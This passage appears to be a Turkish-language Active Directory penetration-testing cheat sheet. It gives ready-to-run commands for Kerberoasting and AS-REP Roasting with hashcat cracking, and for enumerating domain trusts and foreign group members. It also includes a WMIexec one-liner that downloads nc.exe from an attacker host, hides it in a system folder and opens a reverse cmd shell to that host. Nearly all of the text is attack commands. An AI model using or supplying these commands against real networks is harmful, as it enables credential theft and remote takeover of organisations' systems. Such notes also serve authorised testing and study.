 2. TGS Bileti Al:

   ```powershell
   GetUserSPNs.py -request -dc-ip 10.10.10.10 Steins.local/mark
   ```

3. Hashı Kır:

   ```bash
   hashcat -m 13100 -a 0 ticket.hashcat rockyou.txt --force
   ```

---

## AS-REP Roasting

### Süreç:

1. PreAuthNotRequired özelliğine sahip kullanıcıları bul:

   ```powershell
   Get-DomainUser -PreauthNotRequired
   ```

2. AS-REP Al:

   ```powershell
   Invoke-ASREPRoast -Verbose
   ```

3. Hashı Kır:

   ```bash
   hashcat -m 18200 hash rockyou.txt --force
   ```

---

## WMIexec ile Komut Çalıştırma

```bash
proxychains wmiexec.py domain/username:'password'@TARGET_ip "powershell.exe Invoke-WebRequest -Uri 'http://KALI_ip/nc.exe' -OutFile 'C:\\Windows\\System32\\spool\\drivers\\color\\nc.exe'; cmd.exe /c C:\\Windows\\System32\\spool\\drivers\\color\\nc.exe -e cmd.exe KALI_IP 9001"
```
### Alanında Bulunan Kullanıcıların ve Grupların Bulunması

#### Diğer bir trust içindeki gruplarda bulunan kullanıcıları bul:
```powershell
Find-ForeignUser
Find-ForeignGroup -Domain steins.local
```

#### Domain Trustlarını Görüntüle:
```powershell
Get-NetDomainTrust
```
